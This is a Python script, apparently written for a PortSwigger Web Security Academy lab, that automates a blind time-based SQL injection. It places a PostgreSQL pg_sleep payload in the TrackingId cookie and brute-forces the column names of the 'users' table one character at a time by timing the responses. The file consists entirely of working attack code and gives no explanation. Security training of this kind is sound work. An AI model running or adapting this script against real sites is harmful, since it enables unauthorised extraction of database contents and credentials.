 ```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 26):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(column_name,', ') from information_schema.columns where table_name='users'),%d,1)='%s') then pg_sleep(2) else pg_sleep(0) end-- - " % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                time_start = time.time()

                r = requests.get(url, cookies=cookies)

                time_end = time.time()

                if time_end - time_start > 2:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
